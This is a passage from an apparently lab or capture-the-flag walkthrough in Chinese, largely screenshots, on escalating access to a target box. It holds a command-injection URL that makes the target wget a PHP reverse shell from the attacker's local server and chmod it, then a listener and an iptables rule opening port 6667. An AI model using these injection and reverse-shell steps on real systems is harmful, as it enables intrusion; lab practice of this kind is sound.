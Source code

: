 ![](https://mmbiz.qpic.cn/mmbiz_png/1DQLmy5KF5MaCtDZZia7mqCsAcicbdgic2icD5s2uXPqW36ByRogdicl1gU9ApjfhRj4xzFa9Qaw5Jib15lSvibvichcFA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ic1JA7F5FW7EwUjZ7Y5D6HTV4J3TpDkT1CoB8KzlyiaGhUQicOMr2N8uU17P8r4QSA6k1znVmLzXaNdlicpXL7KJvA/640?wx_fmt=png)

第二种提权方法

发现 LFI 漏洞利用后，我直接利用 python 代码，现在世面上很多 python 提权的代码... 例如：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1zO75F7MHXjrssCxKCZRMYJicHRhDHzibcejmN6icsWFQITj85EBA4EUIw/640?wx_fmt=png)

这两种都可以在这里提权，前面是代码直接复制到 web 链接即可，另外一个是 shell，wget 下载上去即可触发...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC166HOuibELdcW0R9gzGa7vLzibwTCjduBGpnNJ1qkffJhxwQYABBw3Kkg/640?wx_fmt=png)

直接获得了低权...（右下角是广告，忽略...）

直接提权 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1PcNicHFAOic7uy4hGNemBCibCoy87u4aUBySVZfq6IXC2Tj2A0DoTV40g/640?wx_fmt=png)

```
cp /usr/share/webshells/php/php-reverse-shell.php shelly.php
```

将 shell 放入本目录中  

```
python -m SimpleHTTPServer  (开启本地服务）
http://192.168.182.135:60080/index.php?page=mailer&mail=wget%20192.168.182.149:8000/shell.php; chmod 777 shell.php; ls -al   （在web中打开从服务中下载shell.php到靶机上）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC11syiabBQ8Npcc5dib8bWSzQQdmQqINNKBoBshJibkCOnHSz1YEcdzsCsQ/640?wx_fmt=png)

开启本地监听..web 访问下即可提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1BqVhWUZrMY2FVzYGvdtofIFfK9rZNJRMbz5kWUa1HG54VgbdzqHu9A/640?wx_fmt=png)

ALL 可以执行 iptables，运行前面 nmap 扫到的 6667 端口的 IRC 服务器...（未开启的）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1MkicKr9fYyjOzNQicBoenfL34xrMVMg6KQyzicormx7EAqgORHAlYiaLIg/640?wx_fmt=png)

继续查看 iptables 规则... 当前的规则是所有与 IRC 的外部连接都将被删除... 准备使 IRC 服务器进行开放...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1oxniaATCrTafLbbAibqceyhaibzuaMxUIXic1ZZiclHbia5jBa5dAAQpGJpg/640?wx_fmt=png)

```
sudo iptables -R INPUT 2 -p tcp --dport 6667 -j ACCEPT（重写了第二条规则以允许端口6667上的TCP连接）
```

运行完后，nmap 前面扫描未开启 6667 端口，在重新扫描后，开启了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1ZB5H7vPDyicPGbqLwxLy0ibqTZUy33ic5Mf8tSsmfmLosYD14hibLV33tA/640?wx_fmt=png)

这边需要加入频道才可以进入其中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1yxfnlicxtGzicsFUZYeRaXLMS2o12PvJhjG1iasUHX9Pkf759ExN2mzlw/640?wx_fmt=png)
